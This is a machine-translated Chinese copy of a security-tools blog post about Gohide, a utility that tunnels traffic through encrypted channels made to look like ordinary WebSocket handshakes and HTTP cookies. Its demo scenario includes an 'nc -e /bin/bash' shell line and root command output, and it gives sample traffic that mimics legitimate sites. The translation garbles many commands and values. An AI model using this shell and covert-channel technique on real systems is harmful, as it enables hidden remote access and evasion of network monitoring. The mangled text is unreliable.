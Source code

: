 # Gohide:使用 AES-GCM 加密在模糊通道上隧道传输端口到端口的流量

> 原文：<https://kalilinuxtutorials.com/gohide/>

[![](img//df21b4f78d52db9b5f331d48c30d9470.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgn1amIDFIy8pZiGhRfnjtKzWPISu0Rjo-8eXBrFSA2WrTB1I7d3J1m-6UbkcIMu71ZrCvFbi4VWQq3Ps446uMv1e8JAt-N6w3xYjQ30Hh4_Ush_CivT9iESgl3sOVZsdaNxdR0PkBs73lcW7Ko1v_uWrzySTYcHJeRTfG63QFJt-USQEB0EF39JiQB/s728/gohide_1%20(1).png)

**Gohide** ，通过 AES-GCM 加密的模糊通道实现端口到端口的流量。

**混淆模式**

*   会话 Cookie HTTP GET (http-client)
*   Set-Cookie 会话 Cookie HTTP/2 200 OK (http-server)
*   WebSocket 握手“Sec-web socket-Key”(web socket-client)
*   WebSocket 握手“Sec-web socket-Accept”(web socket-server)
*   没有混淆，只是使用 AES-GCM 加密的消息(无)

对于上述每个选项，AES-GCM 都是默认启用的。

**用途**

root @ WOPR-卡利:/opt/gohide-dev#。/gohide -h
的用法。/gohide:
-f string
listen fake server-r x . x . x . x:xxxx(IP/domain:port)(默认为“0 . 0 . 0 . 0:8081”)
-key OpenSSL passwd-1-salt ok | MD 5 sum
AES 加密秘密:使用'-k OpenSSL passwd-1-salt ok | MD 5 sum '从密码中导出密钥(默认为“5fe10ae58c5ad02a6113305f4e7 用于 TLS 加密模式的 PEM:default =使用硬编码的密钥对' CN:target.com '，none =明文模式(默认为“默认”)
-r string
转发到远程假服务器-r x.x.x.x:xxxx (ip/domain:port)(默认为“127 . 0 . 0 . 1:9999”)

**场景**

方框 A–反向处理器

root @ WOPR-卡利:/opt/gohide#。/gohide-f 0 . 0 . 0 . 0:8081-l 127 . 0 . 0 . 1:8080-r target.com:9091-m web socket-client
本地端口转发监听:127 . 0 . 0 . 0 . 1:8080
fake SRV 监听:0.0.0.0:8081

注意:/etc/hosts "127.0.0.1 target.com "

方框 B–Netcat/bin/bash

**root @ WOPR-卡利:/var/tmp # NC-e/bin/bash 127 . 0 . 0 . 1 9090**

方框 A–Netcat 客户端

**root @ WOPR-KALI:/opt/gohide # NC-v 127 . 0 . 0 . 1 8080
localhost[127 . 0 . 0 . 1]8080(http-alt)open
id
uid = 0(root)GID = 0(root)groups = 0(root)
uname-a
Linux WOPR-KALI 5 . 3 . 0-KALI 2-amd64 # 1 SMP Debian 5 . 3 . 9-1k/gohide**

**混淆样本**

web socket-客户端(框 A 到框 B)

*   Sec-WebSocket-Key 包含 AES-GCM 加密的内容，例如“uname -a”。

**GET/news/API/latest HTTP/1.1
主机:cdn-tb0.gstatic.com
用户代理:Mozilla/5.0(Windows NT 10.0；三叉戟/7.0；rv:11.0)像壁虎
升级:websocket
连接:升级
Sec-web socket-Key:6jZS+0 wg1 IP 3n 33 rievbomiuwh5 zdnmpjvowxm 62
Sec-web socket-Version:13**

web socket-服务器(框 B 到框 A)

*   Sec-WebSocket-Accept 包含 AES-GCM 加密的输出。

**HTTP/1.1 101 交换协议
升级:websocket
连接:升级
Sec-web socket-Accept:urr P5 l 0 z 3 NIH Xi+isjuiytskfop 60 VW 5d 2 gqcmi =**

http 客户端

*   会话 cookie 头包含 AES-GCM 加密的内容

**GET/news/API/latest HTTP/1.1
主机:cdn-tbn0.gstatic.com
用户代理:Mozilla/5.0(Windows NT 10.0；三叉戟/7.0；rv:11.0)像壁虎
接受: */*
接受——语言:en-US，en；q=0.5
Accept-Encoding: gzip，deflate，br
Referer:http://www.bbc.co.uk/
Connection:keep-alive
Cookie:Session = r7ij 8y/ebg canto 6 fc 0 fxhnvda 27 pfxyberjnw 29；安全；HttpOnly**

http-服务器

*   Set-Cookie 头包含 AES-GCM 加密的内容。

**HTTP/2.0 200 OK
内容-编码:gzip
内容-类型:text/html；charset = utf-8
pragma:no-cache
server:nginx
x-content-type-options:no sniff
x-frame-options:same origin
x-XSS-protection:1；mode = block
cache-control:no-cache，no-store，must-revalidate
过期时间:2019 年 11 月 21 日星期四 01:07:15 GMT
日期:2019 年 11 月 21 日星期四 01:07:15 GMT
content-length:30330
vary:Accept-Encoding
X-Firefox-Spdy:H2
Set-Cookie:Session = gWMnQhh+安全；path =/；HttpOnly**

没有人

**8 jwxufvora 2 FNA/8m 2 vnub 6 OIA 2 rav 4q 5 tuelja**

[**Download**](https://github.com/Potato-Industries/gohide)